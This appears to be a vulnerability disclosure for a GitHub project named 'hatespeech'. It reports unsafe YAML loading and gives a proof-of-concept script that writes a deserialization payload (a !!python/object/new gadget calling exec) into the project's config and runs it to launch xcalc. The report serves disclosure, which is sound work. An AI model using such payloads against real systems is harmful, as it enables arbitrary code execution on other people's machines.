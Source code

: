 # Description

`Hate speech` in Twitter , which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/pavelerokhin/hatespeech
```

### Run exploit.py
```
import os

#os.system('git clone https://github.com/pavelerokhin/hatespeech')
os.chdir('hatespeech/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""

open('cong.yml','w+').write(payload)
os.system('python3 main.py')

```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
